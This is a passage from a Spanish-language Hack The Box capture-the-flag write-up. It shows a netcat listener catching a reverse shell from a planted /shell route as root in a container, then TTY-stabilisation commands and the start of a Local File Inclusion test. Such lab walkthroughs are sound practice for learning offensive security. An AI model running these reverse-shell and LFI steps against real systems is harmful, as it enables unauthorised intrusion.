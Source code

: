 Al parecer funcionó.

Vamos a comprobarlo:
* Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

* Visita la ruta: `http://10.10.11.164/shell` o aplica un **curl** a esa misma URL:
```bash
curl http://10.10.11.164/shell
```

* Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.164] 43260
/app # whoami  
whoami
root
```

* Listo, ya solo has un tratamiento de la **TTY**:

```bash
/app # python3 -c 'import pty;pty.spawn("sh")'
python3 -c 'import pty;pty.spawn("sh")'
/app # ^Z      
zsh: suspended  nc -nlvp 443
                                                                                                                                                                                                                 
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
/app #
/app # export TERM=xterm
/app # export SHELL=/bin/sh
/app # 
```

Hemos ganado acceso, pero al contenedor solamente.

<h2 id="LFI">Aplicando Local File Inclusion</h2>

Cuando descubrimos que se podía suplantar archivos únicamente agregando una diagonal al nombre del archivo, no probamos si podíamos aplicar **LFI**.

Desde una petición **POST** no podremos. Vamos a probarlo desde una petición **GET**.

Captura la petición de un archivo que hayas subido; en mi caso, capturaré el **archivo test.txt** que ya había subido:

<p align="center">
<img src="/assets/images/htb-writeup-opensource/Captura19.png">
</p>